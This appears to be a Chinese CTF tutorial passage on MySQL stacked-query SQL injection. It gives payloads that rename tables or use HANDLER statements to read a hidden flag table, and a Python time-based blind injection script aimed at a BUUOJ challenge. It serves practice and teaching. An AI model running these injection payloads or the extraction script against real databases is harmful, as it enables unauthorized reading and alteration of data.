 ##### 修改表名

rename 

```sql
1';rename table words to words1;rename table flag_here to words;#

# rename命令用于修改表名。
# rename命令格式：rename table 原表名 to 新表名
```

##### 修改表名与字段名

rename/alter 

```sql
1';rename table words to words1;rename table flag_here to words;alter table words change flag id varchar(100);#

rename命令用于修改表名。
rename命令格式：rename table 原表名 to 新表名;
```

##### HANDLER语句

如果rename、alter被过滤了，我们可以借助HANDLER语句来bypass。在不更改表名的情况下读取另一个表中的数据。

`HANDLER ... OPEN` 语句打开一个表，使其可以使用后续 `HANDLER ... READ` 语句访问，该表对象未被其他会话共享，并且在会话调用 `HANDLER ... CLOSE` 或会话终止之前不会关闭，详情请见：https://www.cnblogs.com/taoyaostudy/p/13479367.html

```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#
或
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;#
```

##### 堆叠注入中的盲注

堆叠注入中的盲注往往是插入sql语句进行实践盲注，就比如 [SWPU2019]Web4 这道题。编写时间盲注脚本：

```python
#author: c1e4r
import requests
import json
import time

def main():
    #题目地址
    url = '''http://568215bc-57ff-4663-a8d9-808ecfb00f7f.node3.buuoj.cn/index.php?r=Login/Login'''
    #注入payload
    payloads = "asd';set @a=0x{0};prepare ctftest from @a;execute ctftest-- -"
    flag = ''
    for i in range(1,30):
        #查询payload
        payload = "select if(ascii(substr((select flag from flag),{0},1))={1},sleep(3),1)"
        for j in range(0,128):
            #将构造好的payload进行16进制转码和json转码
            datas = {'username':payloads.format(str_to_hex(payload.format(i,j))),'password':'test213'}
            data = json.dumps(datas)
            times = time.time()
            res = requests.post(url = url, data = data)
            if time.time() - times >= 3:
                flag = flag + chr(j)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])
```